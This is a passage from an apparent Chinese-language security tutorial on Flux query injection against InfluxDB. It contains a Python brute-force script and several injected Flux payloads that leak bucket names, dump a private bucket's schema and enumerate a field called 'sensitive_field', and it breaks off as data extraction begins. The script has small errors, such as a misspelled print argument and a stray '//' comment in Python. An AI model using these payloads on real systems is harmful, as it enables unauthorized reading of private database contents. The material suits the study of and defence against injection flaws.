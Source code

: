 ```python
import requests
import string
url = "https://127.0.0.1:3000?query="
para1= " ") |> yield(name: "1337") buckets() |> filter(fn: (r) => r.name =~ /^{}.*/ and die(msg:r.name)) //"
s=''+string.ascii_letters
flag = sensitive_field
for i in range(0,52):
    for j in s:
        try:
            htmlLen = requests.get(url=url+para1.format(j)).text
        except:
            print(j)
        if flag in htmlLen:
            print(htmlLen,endd='')
            break
//为了让你们更加直观的看见playload，所以这里没有进行编码，所以可能在para1处会报错。
```

#### 泄露bucket及其相关数据

前面已经有bucket的名称了，所以就直接from

```node.js
") |> yield(name: "1337") 
 from(bucket: "privateBucket") |> range(start: 0) |> filter(fn: (r) => die(msg:r)) 
 //
```

这里就是把`filter`中的`r`也就是匹配出来的所有东西都输出出来  
最终页面返回：

```node.js
_value: B,
_time: time,
_stop: time,
_start: time,
_measurement: string,
_field: string
```

也就是这个bucket中的所有的结构和其对应的数据类型，那么接下来便可以爆破其字段的名称

```node.js
") |> yield(name: "1337")
 from(bucket: "privateBucket") |> range(start: 0) |> filter(fn: (r) => r._field =~ /s.*/ and die(msg:r._field))
 //
```

也就是爆破出以`s`开头的字段名称，这个和前面泄露bucket名的是一个原理

![nosql19.png](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-c513450d5692dfc3fd52826f2922c1e43d042e5c.png)  
可以看见这个字段名为:`sensitive_field`  
接下来就是爆其数据了
